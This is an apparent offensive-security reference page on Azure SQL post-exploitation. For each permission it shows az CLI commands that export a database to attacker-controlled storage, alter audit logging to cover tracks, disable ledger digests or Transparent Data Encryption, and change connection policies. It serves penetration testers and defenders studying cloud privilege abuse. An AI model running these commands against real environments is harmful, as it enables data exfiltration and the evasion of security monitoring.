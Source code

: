 # Az - SQL Database Post Exploitation

## SQL Database Post Exploitation

For more information about SQL Database check:

[[../az-services/az-sql.md]]

### `Microsoft.Sql/servers/databases/read`, `Microsoft.Sql/servers/read` && `Microsoft.Sql/servers/databases/write`

With these permissions, an attacker can create and update databases within the compromised environment. This post-exploitation activity could allow an attacker to add malicious data, modify database configurations, or insert backdoors for further persistence, potentially disrupting operations or enabling additional malicious actions. 

```bash
# Create Database
az sql db create --resource-group <resource-group> --server <server-name> --name <new-database-name>

# Update Database
az sql db update --resource-group <resource-group> --server <server-name> --name <database-name> --max-size <max-size-in-bytes>
```

With this permissions (`Microsoft.Sql/servers/read` && `Microsoft.Sql/servers/databases/write`) you can restore a deleted database:

```bash
az sql db restore \
  --dest-name <new_database_name> \
  --name <original_database_name> \
  --resource-group <resource_group> \
  --server <server_name> \
  --deleted-time "<deleted_time_ISO_format>"

```

### `Microsoft.Sql/servers/elasticPools/write` && `Microsoft.Sql/servers/elasticPools/read`

With these permissions, an attacker can create and update elasticPools within the compromised environment. This post-exploitation activity could allow an attacker to add malicious data, modify database configurations, or insert backdoors for further persistence, potentially disrupting operations or enabling additional malicious actions.

```bash
# Create Elastic Pool
az sql elastic-pool create \
    --name <new-elastic-pool-name> \
    --server <server-name> \
    --resource-group <resource-group> \
    --edition <edition> \
    --dtu <dtu-value>

# Update Elastic Pool
az sql elastic-pool update \
    --name <elastic-pool-name> \
    --server <server-name> \
    --resource-group <resource-group> \
    --dtu <new-dtu-value> \
    --tags <key=value>
```

### `Microsoft.Sql/servers/auditingSettings/read` && `Microsoft.Sql/servers/auditingSettings/write`

With this permission, you can modify or enable auditing settings on an Azure SQL Server. This could allow an attacker or authorized user to manipulate audit configurations, potentially covering tracks or redirecting audit logs to a location under their control. This can hinder security monitoring or enable it to keep track of the actions. NOTE: To enable auditing for an Azure SQL Server using Blob Storage, you must attach a storage account where the audit logs can be saved.

```bash
az sql server audit-policy update \
  --server <server_name> \
  --resource-group <resource_group_name> \
  --state Enabled \
  --storage-account <storage_account_name> \
  --retention-days 7
```

### `Microsoft.Sql/locations/connectionPoliciesAzureAsyncOperation/read`, `Microsoft.Sql/servers/connectionPolicies/read` && `Microsoft.Sql/servers/connectionPolicies/write`

With this permission, you can modify the connection policies of an Azure SQL Server. This capability can be exploited to enable or change server-level connection settings

```bash
az sql server connection-policy update \
  --server <server_name> \
  --resource-group <resource_group_name> \
  --connection-type <Proxy|Redirect|Default>
```

### `Microsoft.Sql/servers/databases/export/action`

With this permission, you can export a database from an Azure SQL Server to a storage account. An attacker or authorized user with this permission can exfiltrate sensitive data from the database by exporting it to a location they control, posing a significant data breach risk. It is important to know the storage key to be able to perform this.

```bash
az sql db export \
  --server <server_name> \
  --resource-group <resource_group_name> \
  --name <database_name> \
  --storage-uri <storage_blob_uri> \
  --storage-key-type SharedAccessKey \
  --admin-user <admin_username> \
  --admin-password <admin_password>

```

### `Microsoft.Sql/servers/databases/import/action`

With this permission, you can import a database into an Azure SQL Server. An attacker or authorized user with this permission can potentially upload malicious or manipulated databases. This can lead to gaining control over sensitive data or by embedding harmful scripts or triggers within the imported database. Additionaly you can import it to your own server in azure. Note: The server must allow Azure services and resources to access the server.

```bash
az sql db import --admin-user <admin-user> \
--admin-password <admin-password> \
--name <target-database-name> \
--server <azure-sql-server-name> \
--resource-group <resource-group-name> \
--storage-key-type SharedAccessKey \
--storage-key <storage-account-key> \
--storage-uri `https://<storage-account-name>.blob.core.windows.net/bacpac-container/MyDatabase.bacpac`
```

### `Microsoft.Sql/servers/connectionPolicies/write` && `Microsoft.Sql/servers/connectionPolicies/read`

With this permissions, a user can modify and retrieve the connection policies of an Azure SQL server. These permissions allow someone to change how clients connect to the server—choosing between methods like redirect or proxy—which could be exploited to weaken security, redirect traffic, or intercept sensitive data if misconfigured.

```bash
az sql server conn-policy update \
  --resource-group <resource_group> \
  --server <server_name> \
  --connection-policy <policy>
```

### `Microsoft.Sql/servers/keys/write` && `Microsoft.Sql/servers/keys/read`

With this permissions, a user can update and retrieve encryption keys associated with an Azure SQL Server. These keys are often used for securing sensitive data through encryption, so manipulating them could compromise data security by allowing unauthorized decryption or key rotation changes.

```bash
az sql server key create \
  --resource-group MyResourceGroup \
  --server MyServer \
  --kid "https://mykeyvault.vault.azure.net/keys/mykey/1234567890abcdef
```

### `Microsoft.Sql/servers/databases/ledgerDigestUploads/disable/action`, `Microsoft.Sql/locations/ledgerDigestUploadsAzureAsyncOperation/read`, `Microsoft.Sql/locations/ledgerDigestUploadsOperationResults/read`

This permissions permission allows disabling Ledger Digest for an Azure SQL Database, which stops the periodic uploading of cryptographic digest records to Azure Blob Storage that verifies the integrity of data.

```bash
az sql db ledger-digest-uploads disable \
  --name ledgerDB \
  --resource-group myResourceGroup \
  --server my-sql-server
```

### `Microsoft.Sql/servers/databases/transparentDataEncryption/write`, `Microsoft.Sql/locations/transparentDataEncryptionAzureAsyncOperation/read`, `Microsoft.Sql/servers/databases/transparentDataEncryption/read`

This permission allows an authorized user or attacker to enable, disable, or modify Transparent Data Encryption (TDE) settings on an Azure SQL database, potentially impacting data security by altering encryption configurations.

```bash
az sql db tde set \
  --database <database-name> \
  --resource-group <resource-group-name> \
  --server <server-name> \
  --status <Enabled|Disabled>
```

